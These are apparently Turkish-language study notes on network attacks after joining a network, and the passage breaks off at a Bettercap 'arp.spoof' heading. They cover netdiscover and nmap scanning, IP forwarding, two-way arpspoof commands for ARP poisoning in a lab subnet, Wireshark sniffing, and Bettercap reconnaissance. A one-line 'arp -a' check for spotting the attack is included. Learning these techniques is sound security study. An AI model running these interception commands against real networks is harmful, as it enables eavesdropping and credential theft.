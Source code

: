 ### Bağlantı Sonrası Yapılacaklar

**_ Netdiscover _**
-Mac adresleri ve ip adreslerini gösteren tablo çıkarır

~ifconfig //ip adresini öğren (bağlı olduğun ağın ya da kırdığın ağın)

~netdiscover -i eth0 -r 10.0.2.0/24 -c 10 // eth0=adı ,, 0/24 bu aralıktaki ağlar ,, 10 ne kadar istek atılacağı

**_ nmap _**

~nmap 10.0.2.0/24 //aynı sonucu verir

////////

**_ Port _**
-Her veri belirli portlardan sağlanır. Her servisin kendine has portu vardır.
Örn: 80 portu Http , 443 portu Https (Web sitesi açmak için)

////////

**_ MITM (Man-in-the-Middle) Saldırısı (Ortadaki Adam) _**

-Hacker bilgisayar kendini ortaya konumlandırır. Kurban, tüm verileri hackera yollar (çünkü onu modem sanıyor). Hacker da bu verileri modeme yollar (çünkü trafiğin devam etmesini istiyor). Arada durup, tüm verileri okuyabilir, değiştirebilir veya kaydedebilir.

**_ ARP (Address Resolution Protocol) (Adres Çözümleme Protokolü) Açığı _**
--Bir bilgisayar, bir IP adresine veri göndermek isterse önce o IP’ye ait MAC adresini öğrenmek için ağa ARP isteği (Who has?) yollar.Kurbana:
“Modemin IP’si şu, ama MAC adresi benim” der.Modeme de:
“Kurbanın IP’si şu, ama MAC adresi benim” der.

**_ ARP Poison _**

~netdiscover -i eth0 -r 10.0.2.0/24 -c 10 //mac ip adres öğren

~echo 1 > /proc/sys/net/ipv4/ip_forward //Normalde bir bilgisayar, gelen IP paketlerini sadece kendisine yönlendirilmişse işler. Ancak bu komut sayesinde o bilgisayar, gelen IP paketlerini başka bir cihaza yönlendirebilir hale gelir. Yani, bilgisayar bir router (yönlendirici) gibi davranır.

~arpspoof -i eth0 -t 10.0.2.6 10.0.2.1 //saldırı
~arpspoof -i eth0 -t 10.0.2.1 10.0.2.6 //2 terminalle hem modeme hem

~arp -a //saldırılan bilgisayar da bu komutu çalıştırdığında aynı mac adresine sahip iki cihaz görürsen saldırıya uğruyorsun

**_ Wireshark _**
--Wireshark, ağ trafiğini gerçek zamanlı olarak izlemek ve analiz etmek için kullanılan güçlü bir ağ analiz aracıdır.Ağa gelen ve giden tüm veri paketlerini görüntüler.Paketlerin içeriğini analiz eder (örneğin: IP, TCP, HTTP, DNS, vs.).Ağ sorunlarını tespit etmeye yardımcı olur. Güvenlik açıklarını incelemek için kullanılır (örneğin: şifrelenmemiş veriler, şüpheli bağlantılar).MITM gibi saldırılarda kurbanın verilerini görmek için kullanılır.

**_ Spoofing _**

Spoofing, Türkçede “aldatma”, “kimliğe bürünme” veya “sahtecilik” anlamına gelir ve siber güvenlikte bir sistemin, cihazın ya da kişinin kimliğini taklit ederek yapılan saldırılara verilen genel isimdir.

**_ Wireshark Saldırı İnceleme _**

~echo 1 > /proc/sys/net/ipv4/ip_forward
~arpspoof -i eth0 -t 10.0.2.6 10.0.2.1 //saldırı
~arpspoof -i eth0 -t 10.0.2.1 10.0.2.6 //2 terminalle, hem modeme hem cihaz

wireshark aç ve hareketleri incele saldırdığın cihazın

**_ Bettercap _**
Aktif bir saldırı aracıdır. MITM saldırıları, DNS spoofing, credential harvesting gibi saldırgan işlemleri yapabilir. CLI (komut satırı) üzerinden çalışır. Ağ üzerindeki diğer cihazları hedef alabilir. Paketleri değiştirebilir, yönlendirebilir.

~bettercap -iface eth0 //arayüz çıkar

~help //açıldıktan sonra yazarsan neler yapabileceğin görürünür
~help ... // ... kısmına kullanmak istediğin method

-- net.probe --

~net.probe on/off // nmap veya netdiscover ın yaptıklarını yapar. Ağları dürter. IP ve kullanıcının (telefon,bilgisayar..) isimleri görünür. net.recon da açılır.

~net.show // topladığı bilgileri gösterir.nmap veya netdiscover ın yaptıklarını yapar. Ağları dürter. IP , MAC adresi ve kullanıcının (telefon,bilgisayar..) isimleri görünür.

~net.clear // topladıüı bilgiler, siler.

-- arp.spoof --
